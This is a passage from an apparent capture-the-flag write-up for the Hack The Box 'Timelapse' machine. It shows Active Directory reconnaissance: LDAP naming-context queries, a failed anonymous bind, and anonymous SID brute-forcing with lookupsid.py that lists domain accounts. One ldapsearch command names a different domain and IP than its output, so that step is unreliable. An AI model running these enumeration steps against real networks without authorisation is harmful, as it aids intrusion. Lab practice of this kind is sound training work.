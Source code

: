 ```shell
ldapsearch  -x -H ldap://10.10.11.152 -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=timelapse,DC=htb
namingcontexts: CN=Configuration,DC=timelapse,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=timelapse,DC=htb
namingcontexts: DC=DomainDnsZones,DC=timelapse,DC=htb
namingcontexts: DC=ForestDnsZones,DC=timelapse,DC=htb
```

Because we don't have valid ldap credentials, so we can't make successful session with ldap and can't enumerate user's and Anonymous login is blocked 

```shell
ldapsearch -x -b "dc=return,dc=local" "*" -H ldap://10.129.95.241        
# extended LDIF
#
# LDAPv3
# base <dc=timelapse,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: * 
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

### Enumerating User's using lookupsid.py

lookupsid.py: **A Windows SID brute forcer example through [MS-LSAT] MSRPC Interface, aiming at finding remote users/groups**.

```shell
lookupsid.py  timelapse.htb/anonymous@10.10.11.152  -no-pass 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.11.152
[*] StringBinding ncacn_np:10.10.11.152[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-671920749-559770252-3318990721
498: TIMELAPSE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: TIMELAPSE\Administrator (SidTypeUser)
501: TIMELAPSE\Guest (SidTypeUser)
502: TIMELAPSE\krbtgt (SidTypeUser)
512: TIMELAPSE\Domain Admins (SidTypeGroup)
513: TIMELAPSE\Domain Users (SidTypeGroup)
514: TIMELAPSE\Domain Guests (SidTypeGroup)
515: TIMELAPSE\Domain Computers (SidTypeGroup)
516: TIMELAPSE\Domain Controllers (SidTypeGroup)
517: TIMELAPSE\Cert Publishers (SidTypeAlias)
518: TIMELAPSE\Schema Admins (SidTypeGroup)
519: TIMELAPSE\Enterprise Admins (SidTypeGroup)
520: TIMELAPSE\Group Policy Creator Owners (SidTypeGroup)
```